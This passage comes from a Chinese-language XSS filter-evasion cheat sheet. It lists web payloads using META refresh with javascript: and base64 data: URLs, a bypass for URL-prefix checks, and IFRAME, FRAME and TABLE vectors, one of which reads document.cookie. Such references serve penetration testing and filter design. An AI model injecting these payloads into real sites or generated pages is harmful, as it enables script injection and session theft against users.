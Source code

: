 ```
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
```

## META using data

URL 指令方案，它是非常的不错因为赢没有明显的 SCRIPT 单词或是 JavaScript 指令出现，因为它使用了 base64 编码。请查看 [RFC 2397](https://tools.ietf.org/html/rfc2397) 了解更多信息或是编码你的代码。你也可以使用 [XSS calculator](http://ha.ckers.org/xsscalc.html) 去编码你的 html 或是 javascript 代码到 base64 位。

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
```

## 额外 url 参数的 META

如果当前网页试图去查找 URL 参数是否以 "http://" 开始，你可以用下列技术绕过（被 Moritz Naumann 提出）

```
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
```

## IFRAME

如果一个 iframes 被允许，那么同时可能会存在大量其他 xss 问题

```
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
```

## IFRAME 基于事件

IFrames 或其他元素可以使用事件如下（提出被 David Cross）

```
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
```

## FRAME

Frames 有一些列相同的问题像 iframes

```
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
```

## TABLE

```
<TABLE BACKGROUND="javascript:alert('XSS')">
```

## TD
